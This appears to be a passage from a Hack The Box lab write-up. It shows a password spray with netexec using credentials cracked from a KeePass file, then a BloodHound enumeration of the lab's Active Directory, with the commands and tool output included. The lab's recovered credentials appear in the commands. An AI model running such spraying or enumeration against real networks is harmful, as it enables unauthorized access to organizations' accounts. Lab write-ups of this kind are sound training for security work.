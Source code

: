 <img src="/img/redteam/htb/puppy/keepass_recovery-kdbx.png" class="full-width-img" alt="recovery.kdbx"/>

<p class="indent-paragraph">
With a fresh batch of credentials in hand (usernames from our earlier RID brute-force and passwords extracted from the cracked KeePass database) it was time to test for valid logins. Feeding both lists into <code>netexec</code> allowed us to iterate through potential combinations efficiently. The result? A clean hit: <span class="blue">PUPPY.HTB\ant.edwards:Antman2025!</span>. No domain admin logins, yet, but this set was definitely worth validating across the environment.
</p>


```
~$ nxc smb dc.puppy.htb -u users-puppy-htb.txt -p pass-puppy-htb.txt | grep "[+]"

SMB               dc.puppy.htb     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
```

### 🕵️‍♂️ BloodHound Enumeration & AD Mapping

<p class="indent-paragraph">
With valid domain credentials for <code>ant.edwards</code> in hand, we reran BloodHound to assess the privileges associated with this new user. A full collection cycle targeting the domain controller was initiated, and the process completed successfully. Just like that, the map of Active Directory got a lot more interesting.
</p>



```
~$ bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -dc dc.puppy.htb -d PUPPY.HTB -c All -ns <IP> -o bloodhound_edwards.json

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
```